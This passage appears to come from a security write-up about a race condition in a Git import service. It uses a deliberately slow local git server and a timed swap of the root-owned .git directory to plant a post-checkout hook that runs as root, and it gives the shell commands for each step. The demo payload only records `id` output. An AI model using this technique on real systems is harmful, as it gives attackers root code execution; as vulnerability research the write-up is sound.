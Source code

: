 We run the server and give it some time to start up.

```sh
git update-server-info
cd .git
PORT=9988 /opt/nvm/versions/node/v10/bin/node ../../delay.js &
server_pid=$!
sleep 5
```

We ask the service to import our repoistory.

```sh
cd ../..
curl -v -H 'Content-Type: application/json' -d '{"repoUrl": "http://localhost:9988/"}' http://localhost:1083/git/import &
command_pid=$!
```

Setting up the `.git` directory is relatively fast.
Git will then need to transfer at least a ref, a commit, and a file.
So I put in a `sleep` for some time that should put us kind of in the middle of waiting for a request to our intentionally slow server.

```sh
sleep 1.5
```

Now, welcome to the "sneaky area."
Git has created a `.git` directory, and it will later check out a branch.
We can add whatever hooks we want during this time.

We can't do it by adding hook scripts in place, because Git running as root has created the `.git` directory to be owned by root.
But because we own the parent directory, we can replace the `.git` directory with an entirely different one.
We create that new one, based on the real one.

```sh
# vvv sneaky area
cp -r /app/.git new.git
cat >new.git/hooks/post-checkout <<'EOF'
id >/tmp/hi
EOF
chmod +x new.git/hooks/post-checkout
```

![](/assets/2021/glitch-git-import-swap.jpg)
